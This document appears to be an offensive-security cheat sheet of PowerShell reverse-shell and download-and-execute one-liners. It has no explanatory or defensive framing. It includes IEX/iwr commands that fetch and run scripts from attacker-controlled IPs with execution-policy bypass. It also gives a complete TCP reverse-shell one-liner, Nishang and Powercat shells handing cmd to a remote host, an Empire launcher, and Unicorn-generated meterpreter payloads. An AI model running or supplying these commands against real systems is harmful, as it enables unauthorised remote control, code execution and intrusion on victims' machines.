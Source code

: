 
### PowerShell

```pwsh
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://10.2.0.5/shell.ps1')|iex"
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8000/ipw.ps1')"
Start-Process -NoNewWindow powershell "IEX(New-Object Net.WebClient).downloadString('http://10.222.0.26:8000/ipst.ps1')"
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.13:8000/PowerUp.ps1') | powershell -noprofile
```

##### Oneliner
```pwsh
$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
##### PS-Nishang

[https://github.com/samratashok/nishang](https://github.com/samratashok/nishang/tree/master/Shells)

```pwsh
Invoke-PowerShellTcp -Reverse -IPAddress 10.2.0.5 -Port 4444
```
##### PS-Powercat
[https://github.com/besimorhino/powercat](https://github.com/besimorhino/powercat)
```pwsh
 powershell -exec bypass -c "iwr('http://10.2.0.5/powercat.ps1')|iex;powercat -c 10.2.0.5 -p 4444 -e cmd"
```
##### Empire
[https://github.com/EmpireProject/Empire](https://github.com/EmpireProject/Empire)
Create a powershell launcher, save it in a file and download and execute it. (`Detected as malicious code`)
```pwsh
powershell -exec bypass -c "iwr('http://10.2.0.5/launcher.ps1')|iex;powercat -c 10.2.0.5 -p 4444 -e cmd"
```
##### MSF-Unicorn
[https://github.com/trustedsec/unicorn](https://github.com/trustedsec/unicorn)

Create a `PwSh` version of metasploit backdoor using unicorn.
```bash
python unicorn.py windows/meterpreter/reverse_https 10.2.0.5 443
```
Start msfconsole
```bash
msfconsole -r unicorn.rc
```
On target machine start a web server
```pwsh
powershell -exec bypass -c "iwr('http://10.2.0.5/powershell_attack.txt')|iex"
```
